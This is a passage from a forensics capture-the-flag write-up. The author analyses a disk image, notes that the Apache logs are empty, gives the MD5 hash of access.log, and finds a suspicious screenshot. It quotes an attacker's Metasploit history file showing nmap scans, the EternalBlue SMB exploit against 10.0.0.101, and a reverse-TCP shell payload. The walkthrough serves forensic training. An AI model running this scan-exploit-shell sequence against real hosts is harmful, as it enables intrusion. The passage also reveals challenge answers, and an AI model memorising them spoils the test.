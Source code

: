 But notice the *Size* column for each of these files, it is 0 meaning the files are empty. We can confirm this by displaying the contents of each file (The bottom right pane displays the contents of the file):

![](https://i.imgur.com/0zWBot6.png)

![](https://i.imgur.com/yEp6Q2d.png)

![](https://i.imgur.com/vPfXzlu.png)

Now we know that the contents of each file are indeed empty. Since there is no data within the Apache log files, we can safely assume that **apache was ran 0 times**.

Let's retrieve the hash of the apache `access.log` file!

Right-click the `access.log` file > *Export File Hash List* > Give the CSV file a name & save it anywhere you'd like.

Now when we open the file, we'll see both the MD5 & SHA1 hash along with the filename:

![](https://i.imgur.com/LkjlI5m.png)

So the MD5 hash of the `access.log` file is: **d41d8cd98f00b204e9800998ecf8427e**

Time to begin searching through the `root` folder which contains many subdirectories along with many files:

![](https://i.imgur.com/fTNCItS.png)

One file which stood out to me within the `root` folder was a JPEG image named `irZLAohL.jpeg`:

![](https://i.imgur.com/RWRvH2P.png)

We can export this file by right-clicking it > Export Files > Choose a directory to export the file to:

![](https://i.imgur.com/KTMe11W.png)

This image contains a flag, which isn't relevant to this challenge, but the image appears to be of someone's desktop. Perhaps the attacker took this screenshot when they compromised a victim's machine.

 One of the questions asks for the name of a file which proves that the machine we are analyzing was used to attack another machine, this image could be evidence of that. To add onto that, there is a hidden directory called `.ms4` within the `root` directory, this is a directory for metasploit and there's a `history` file within that hidden directory:

![](https://i.imgur.com/0QX387B.png)

The full contents of the `history` file are:

```
hosts
exit
hosts
exit
db_nmap -sV -O -T5 -Pn 10.0.0.101
db_nmap -sV -O -T5 -Pn 10.0.0.101 -oX ~/nmap_out.xml
db_nmap -sV -O -T5 -Pn 10.0.0.101 -oX /root/nmap_out.xml
search eternal
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOST 10.0.0.101
run
show payloads
use windows/x64/shell/reverse_tcp
search eternal
use exploit/windows/smb/ms17_010_eternalblue
```